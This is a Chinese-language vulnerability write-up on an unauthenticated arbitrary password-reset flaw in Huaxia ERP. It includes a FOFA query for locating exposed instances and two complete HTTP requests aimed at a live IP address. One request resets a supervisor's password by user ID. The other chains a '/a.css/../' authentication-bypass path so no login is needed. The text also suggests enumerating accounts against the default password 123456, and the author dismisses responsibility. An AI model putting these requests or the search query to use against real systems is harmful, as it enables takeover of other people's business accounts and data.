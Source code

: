 ## 华夏ERP越权任意用户密码重置漏洞

## 漏洞描述

华夏ERP基于SpringBoot框架和SaaS模式，可以算作是国内人气较高的一款ERP项目，但经过源码审计发现其存在多个漏洞，本篇为越权任意用户密码重置漏洞

## 漏洞影响

> 华夏ERP

## FOFA

> title="华夏ERP"

## 漏洞复现

一、越权任意密码重置漏洞

------

漏洞简单描述：

```
该项目利用id重置相应用户密码，且未做权限划分, 重置后为123456，漏洞代码位置为：
```

```
src/main/java/com/jsh/erp/controller/UserController.java
```

![图片](resource/华夏任意用户密码重置/1.png)



测试漏洞的时候，我们先使用测试账号登录进后台，然后获取到所有用户list

![图片](resource/华夏任意用户密码重置/2.png)

发现主管大大的ID为63，那我们就可以把他的密码重置掉：

![图片](resource/华夏任意用户密码重置/3.png)

知道你们懒得敲，复制一下：

```
POST /user/resetPwd HTTP/1.1
Host: 47.116.69.14
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_2_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.72 Safari/537.36 Edg/89.0.774.45
X-Requested-With: XMLHttpRequest
Referer: http://47.116.69.14/pages/reports/account_report.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Cookie: JSESSIONID=D735ED1C9E200438866A79896DF1F77D;
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

id=63
```

从上面的源码中可以看到，重置后的默认密码为123456



二、组合拳-前台任意用户密码重置漏洞

------

那么实战中怎么可能有测试账号给你登录后台呢，弱口令？爆破？只不过很少时候是yyds，那么我们就可以结合上一篇中的授权绕过漏洞打个组合拳。

我们从前台随便重置一个ID的密码：

![图片](resource/华夏任意用户密码重置/4.png)

```
POST /a.css/../user/resetPwd HTTP/1.1
Host: 47.116.69.14
Content-Length: 8
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36 Edg/85.0.564.60
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://47.116.69.14
Referer: http://47.116.69.14/pages/manage/user.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Connection: close

id=90824
```

这时候肯定有人要问了，密码是给重置成123456了，那怎么知道账户是什么？？

(⊙o⊙)…阿这，枚举一下子？然后全试一遍？哈哈哈不管了，反正不是我实战，就是这么不负责~